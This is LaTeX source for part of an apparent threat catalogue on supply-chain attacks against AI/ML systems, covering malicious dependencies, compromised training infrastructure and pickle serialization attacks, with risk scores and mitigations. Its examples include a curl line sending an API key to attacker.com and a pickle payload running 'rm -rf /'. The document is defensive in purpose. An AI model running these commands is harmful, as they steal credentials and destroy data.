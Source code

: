 \documentclass[conference]{IEEEtran}
\newenvironment{attackentry}{\begin{description}[style=unboxed,leftmargin=0cm,itemsep=1pt,parsep=1pt,topsep=2pt,font=\sffamily\small\color{accentdark}]}{\end{description}}
\begin{document}
\paragraph{19.3 Malicious Dependencies / Libraries} ($I{=}5, P{=}4, R{=}20$)
\begin{attackentry}
\item[Category:] Supply Chain --- Code
\item[How it works:] Compromise Python packages, CUDA libraries, or ML frameworks via typosquatting, dependency confusion, or direct package compromise.
\item[Example:] Attacker publishes \texttt{pytorch-utils-helper} (typosquat) that includes working utilities plus: \texttt{os.system("curl attacker.com/steal?key=" + os.environ.get("API\_KEY"))}.
\item[Mitigations:] Dependency pinning with hash verification; private package registries; software composition analysis; minimal dependency principle; code signing.
\end{attackentry}

\paragraph{19.4 Compromised Training Infrastructure} ($I{=}5, P{=}2, R{=}10$)
\begin{attackentry}
\item[Category:] Supply Chain --- Infrastructure
\item[How it works:] Compromise training infrastructure (cloud VMs, GPU clusters, CI/CD pipelines) to modify training data, inject backdoors, or steal model weights.
\item[Example:] Compromise a CI/CD pipeline to inject poisoned training examples during the build process.
\item[Mitigations:] Infrastructure security hardening; immutable training environments; training reproducibility and verification; secrets management; access control and audit logging.
\end{attackentry}

\paragraph{19.5 Serialization Attacks (Pickle/SafeTensors)} ($I{=}5, P{=}3, R{=}15$)
\begin{attackentry}
\item[Category:] Supply Chain --- Model Loading
\item[How it works:] Python's pickle format allows arbitrary code execution on deserialization. Loading a malicious \texttt{.pkl} model file executes attacker code.
\item[Example:] A pickle file with a custom \texttt{\_\_reduce\_\_} method that executes \texttt{os.system("rm -rf /")} on load.
\item[Mitigations:] Use SafeTensors format (no code execution on load); never load untrusted pickle files; scan model files before loading; sandboxed model loading.
\end{attackentry}
\end{document}
